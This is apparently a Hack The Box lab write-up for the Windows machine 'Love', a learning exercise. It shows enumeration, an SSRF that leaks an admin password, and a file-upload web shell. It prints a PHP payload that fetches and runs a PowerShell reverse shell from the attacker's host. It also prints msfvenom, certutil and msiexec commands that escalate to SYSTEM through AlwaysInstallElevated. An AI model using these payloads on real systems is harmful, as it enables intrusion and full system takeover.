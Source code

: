 # Love Writeup - by Thammanant Thamtaranon  
- Love is an easy Windows machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:
```bash
nmap -A -T4 -Pn -p- 10.10.10.239
```
![Nmap_Scan1](Nmap_Scan1.png)  
![Nmap_Scan2](Nmap_Scan2.png)  
- The scan showed multiple open ports:  
  - 80 (HTTP)  
  - 135, 139, 445 (MSRPC, SMB, NetBIOS)  
  - 443 (HTTPS)  
  - 3306 (MySQL)  
  - 5000 (HTTP)  
  - 5985, 5986 (WinRM HTTP, WinRM HTTPS)

- I added `staging.love.htb` and `love.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration  
- We ran a directory brute-force using `gobuster`:
```bash 
gobuster dir -u love.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 50
```
![Gobuster](Gobuster.png)  
- The interesting path is `/admin`. We tried common credentials, but they did not work.  
- The `index.php` page requires a voting ID and password, so we moved on.  
- We tried connecting to port 5000 but got `Forbidden`.  
- Visiting `http://staging.love.htb` revealed a Free File Scanner service. We navigated to the demo and found a URL parameter.  
- We attempted SSRF to port 5000 and it worked, revealing Admin's password.  
![SSRF](SSRF.png)  
- We used the credential `admin:@LoveIsInTheAir!!!!` at `/admin` and successfully logged in.

## Exploitation  
- We searched for Voting System CVEs and found multiple, but since we were authenticated, we focused on **File Upload RCE (Authenticated Remote Code Execution)**.  
![Searchsploit](Searchsploit.png)  
- Reading the Python code, the vulnerability exists in the `photo` field when adding a voter. Using Burp Suite, we exploited it manually.  
![Request](Request.png)  
![Result](Result.png)  
- We then navigated to `http://love.htb/images/shell.php?cmd=whoami` to confirm the exploit worked.  
![PoC](PoC.png)  
- After confirming the exploit, we modified the command to download and execute our `rev.ps1` from our machine:  
```bash
<?php
$ps1_url = "http://10.10.16.11:8000/rev.ps1";  
$local_path = "rev.ps1";

file_put_contents($local_path, file_get_contents($ps1_url));

$cmd = "powershell -NoP -NonI -W Hidden -Exec Bypass -File \"$local_path\"";
pclose(popen("start /B " . $cmd, "r"));
?>  
```
![GET](GET.png)  
![Shell](Shell.png)  
- We then got a shell as user `phoebe` and captured the user flag.

## Privilege Escalation  
- We ran `whoami /priv` and `whoami /groups` to check privileges and group membership, but initially found nothing useful.  
![Priv](Priv.png)  
- While checking around, we found that `AlwaysInstallElevated` was set to 1.  
![AlwaysInstallElevated](AlwaysInstallElevated.png)  
- `AlwaysInstallElevated` is a Windows Installer policy that forces the Windows Installer service (`msiexec.exe`) to run all MSI package installations with elevated privileges, regardless of the user’s current token.  
- We generated an MSI payload using msfvenom:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.11 LPORT=5555 -f msi > shell.msi
```
- We then downloaded it to the server:
```bash 
certutil -urlcache -split -f http://10.10.16.11:8000/shell.msi shell.msi
```
- Finally, we ran the payload:
```bash
msiexec /quiet /i shell.msi
```
- We now had a SYSTEM shell and captured the root flag.  
![Root](Root.png)
